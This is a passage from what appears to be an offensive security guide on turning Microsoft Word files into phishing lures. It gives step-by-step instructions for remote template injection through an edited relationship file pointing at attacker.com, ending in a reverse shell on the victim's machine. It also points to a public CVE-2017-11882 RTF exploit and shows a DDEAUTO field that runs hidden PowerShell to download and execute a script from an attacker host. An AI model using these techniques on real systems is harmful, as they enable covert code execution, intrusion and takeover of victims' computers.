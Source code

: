 2. **Create a Decoy Word Document**
Make a regular `.docx` with some content like "Financial Report".
Rename it to "file.zip" then unzip it by right click on it and "**Extract to**" e.g : "decoy".

3. **Inject Remote Template Relationship**
  Edit `decoy/word/_rels/settings.xml.rels` and add:
```xml
<Relationship Id="rId1337"
  Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
  Target="http://attacker.com/template.dotm" // add the url to your payload here 
  TargetMode="External"/>
```
Then edit `decoy/word/settings.xml` and add inside `<w:settings>`:
```xml
<w:attachedTemplate r:id="rId1337"/>
```

4. **Repackage the File**
Re-zip and rename back to `.docx`:

Now you have a "malicious_report.docx" that looks benign, but loads a remote .dotm template that executes a payload.

5. **host the malicious `.docm` template on a server  then deliver the decoy to the victim.**
```shell
python3 -m http.server 80
```

6. **Execution**
when the victim opens the decoy document it will retrieve the remote template and renders it ( executes the enabled macros ), resulting in a reverse shell.

#### RTF Exploit (CVE-2017-11882 as example)

Use available POCs (e.g., msf exploits or public tools). [CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)

#### DDE Abuse

1. **Open Microsoft Word**
   - Open a blank Word document.

2. **Enable Field Code Editing**

- Place your cursor where you want the payload.
- Press **`Ctrl + F9`** — this inserts special field brackets like this:
```
{ }
```
  Do NOT type the braces manually — use `Ctrl + F9`.

3. **Insert DDE Payload**

Inside the `{ }`, write the following DDE field:
```
{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" }
```
Replace `calc.exe` with any system command. Example with PowerShell:
```
{ DDEAUTO c:\\windows\\system32\\powershell.exe "powershell -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://attacker-ip/payload.ps1')" }
```
